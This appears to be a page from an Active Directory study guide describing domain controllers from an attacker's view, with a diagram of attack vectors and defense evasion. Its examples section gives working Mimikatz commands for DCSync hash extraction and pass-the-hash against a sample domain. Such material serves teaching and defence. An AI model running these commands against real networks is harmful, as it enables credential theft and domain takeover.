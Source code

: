
## 🎯 Red Team / Attacker Perspective

### **High-Value Targets**

DCs are **primary targets** because compromising one gives attackers:

- **Access to the entire domain's user database**
- **Ability to create/modify user accounts and groups**
- **Access to password hashes and Kerberos tickets**
- **Control over domain policies and Group Policy Objects**

### **Attack Vectors**

- **DCSync**: Extract password hashes by impersonating a DC
- **Pass-the-Hash**: Use extracted hashes to authenticate as other users
- **Golden Ticket**: Create forged Kerberos tickets using KRBTGT hash
- **Silver Ticket**: Create forged service tickets for specific services

### **Attack Examples**

```powershell
# DCSync attack using Mimikatz
lsadump::dcsync /domain:corp.local /user:krbtgt

# Extract all users and their hashes
lsadump::dcsync /domain:corp.local /all /csv

# Pass-the-Hash attack
sekurlsa::pth /user:administrator /domain:corp.local /ntlm:hash /run:cmd.exe
```

### **Domain Controller Attack Surface**
```mermaid
graph TD
    subgraph "🎯 Primary Targets"
        Target1[🎯 Domain Controllers<br/>High Value Target]
        Target2[🎯 Authentication Services<br/>User Validation]
        Target3[🎯 Directory Services<br/>Object Storage]
        Target4[🎯 Replication Services<br/>Data Synchronization]
        Target5[🎯 Policy Services<br/>Security Configuration]
    end
    
    subgraph "🔄 Attack Vectors"
        Vector1[🔄 DCSync<br/>Password Hash Extraction]
        Vector2[🔄 Pass-the-Hash<br/>Credential Reuse]
        Vector3[🔄 Golden Ticket<br/>Forged Authentication]
        Vector4[🔄 Silver Ticket<br/>Service Ticket Attacks]
        Vector5[🔄 Kerberoasting<br/>Service Account Attacks]
    end
    
    subgraph "🛡️ Defense Evasion"
        Evasion1[🥷 Stealth Operations<br/>Avoid Detection]
        Evasion2[⏰ Timing Attacks<br/>Authentication Timing]
        Evasion3[🔇 Logging Bypass<br/>Event Evasion]
        Evasion4[🌐 Protocol Abuse<br/>Authentication Protocol]
    end
    
    Target1 --> Vector1
    Target2 --> Vector2
    Target3 --> Vector3
    Target4 --> Vector4
    Target5 --> Vector5
    
```